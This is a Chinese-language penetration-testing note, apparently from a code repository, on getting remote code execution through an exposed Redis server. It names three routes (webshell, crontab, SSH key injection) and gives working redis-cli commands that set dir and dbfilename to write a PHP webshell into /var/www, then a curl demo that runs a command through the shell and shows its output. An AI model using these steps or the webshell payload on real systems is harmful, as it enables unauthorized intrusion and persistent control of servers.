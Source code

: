 ### redis的RCE

三种方式：
- 写webshell（需要知道web绝对路径、web路径redis用户有权限写）
- 写入到crontab
- 将攻击者的公钥写入到authorized_key，使用攻击者的私钥ssh登录（需要开启ssh服务）


#### 说明
```
dir: 工作目录
dbfilename: 数据库的文件名
```

### redis写shell原理

设置dir工作目录，然后设置dbfilename，通过这两个步骤设置了数据库的绝对路径和文件名。后续写入的键值对就写入到这个可控的文件中（初衷是数据库文件），这里变成了攻击者的shell文件。

在redis-cli下查看这两个值：
```
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/lib/redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```
然后在系统上查看这个目录和文件的权限。redis用户对这个文件具有读写权限。这个目录也是只有redis这个用户才能访问。

```
root@ubuntu:/proc# ll /var/lib/redis
total 188
drwxr-x---  2 redis redis  4096 Jan 10 22:25 ./
drwxr-xr-x 73 root  root   4096 Nov  5 22:35 ../
-rw-rw----  1 redis redis 58587 Jan 10 22:25 dump.rdb
-rw-rw----  1 redis redis 58587 Dec  9 18:46 temp-33935.rdb
-rw-rw----  1 redis redis 58587 Dec 27 17:58 temp-67951.rdb
```


### redis启动的权限问题
如果想通过redis写入webshell，而redis是以redis用户启动，apache2是以www-data用户启动，则redis用户无法写入/var/www/目录的文件。在save步骤会出错。
```
127.0.0.1:6379> set 1 "<?php @eval($_POST['cqq']);?>    "
OK
127.0.0.1:6379> save
(error) ERR
```

### redis写webshell步骤
```
127.0.0.1:6379> config set dir /var/www
OK
127.0.0.1:6379> config set dbfilename redis_shell4.php
OK
127.0.0.1:6379> set 1111 "    <?php system($_REQUEST['cqq']);?>   "
OK
127.0.0.1:6379> save
```

#### Demo
```
$ curl -i http://192.168.85.129/redis_shell4.php?cqq=ifconfig --output -
HTTP/1.1 200 OK
Date: Mon, 11 Jan 2021 08:00:12 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2538
Content-Type: text/html; charset=UTF-8

REDIS0008	redis-ver4.0.9
redis-bits󿿀򳨭eused-memÐ
                      Ϻ
                       aof-preamble~򀕄(    br-3f4328a91e7c: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:91:42:81:60  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```


### 参考
- [利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
- [redis 在渗透中 getshell 方法总结](https://zhuanlan.zhihu.com/p/36529010)
